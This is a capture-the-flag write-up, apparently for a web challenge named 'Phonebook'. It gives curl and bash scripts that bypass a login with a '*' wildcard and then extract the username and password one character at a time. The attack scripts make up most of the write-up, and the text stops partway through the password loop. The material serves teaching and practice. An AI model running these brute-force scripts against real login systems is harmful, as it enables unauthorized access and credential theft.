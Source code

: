 # Phonebook

> **Who is lucky enough to be included in the phonebook?**

## Login

`sqlmap` finds nothing.

Let's fuzz with special characters and see if there's room for template injection.

First, replay a browser request:

```bash
curl -i -s -k -X POST \
  -H $'Content-Type: application/x-www-form-urlencoded' \
  --data-binary $'username=admin&password=admin' \
  $'http://206.189.20.127:31677/login'
```

The server gives an empty reply in all cases; the only distinction between
an authentication failure and a success is in the header:

```
Location: /login?message=Authentication%20failed
```

So we cannot use `ffuf` because it filters / matches according to the response
body; it has no option to parse the response header.

With curl:

```bash
while read c; do
curl -i -s -k -X POST \
  --data-binary "username=${c}&password=*" \
  $'http://206.189.20.127:31677/login';
done </usr/share/wordlists/fuzzing/special-chars.txt
```

Anyway, we can bypass the login with `*` and `)` returns a 500, internal error.

## Search

Once logged, we can query the phonebook. The data does not contain outstanding.

The webpage is very dry, with a single search functionality.

Looking into the JS, there may be a potential for an insecure deserialization
on the server side: 

```javascript
function search(form) {
  var searchObject = new Object();
  searchObject.term = $("#searchfield").val();
  $.ajax({
    type: "POST",
    url: "/search",
    data: JSON.stringify(searchObject),
    success: success,
    dataType: "json",
});
};
```

## Bruteforcing

### Algorithm

May-be the wildcard bypass got us logged as a random user, something like the first
match from a database.

Our previous fuzzing technique is actually performing pattern matching against
the user and password.

In particular, it can determine if either the password / username:

- start with a given prefix: `"username=${prefix}*&password=*"`
- contain a given character: `"username=*${character}*&password=*"`

The algorithm follows:

1) Bruteforce the username:
  - build an alphabet with only the characters found in the username
  - expose the username character by character
2) Bruteforce the password:
  - build an alphabet with only the characters found in the password
  - expose the password character by character

### Optimizing the alphabets

We start with most alphanumeric characters:

```bash
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_{}'
```

The operations on the username and the password are identical, they can be
wrapped in a function:

```bash
credentials_match() {
    return $(curl -i -s -k -X POST \
        --data "username=${1}&password=${2}" \
        $'http://206.189.20.127:31677/login' |
        grep -ia failed)
}
```

Then the alphabet is determined with:

```bash
for i in {0..65}; do
    trying=${alphabet:${i}%66:1};
    isinside=$(credentials_match "*${trying}*" "*");
    if [[ -z "$isinside" ]]; then username_alphabet+="${trying}"; echo "[+]${trying}"; fi
done
```

Same for the password.

### Iterating

The password is exposed character after character thanks to the pattern:

```bash
isinside=$(credentials_match "*" "${current_password}${trying}*");
```

I couldn't pass the brackets to my function, so I hardcoded the start.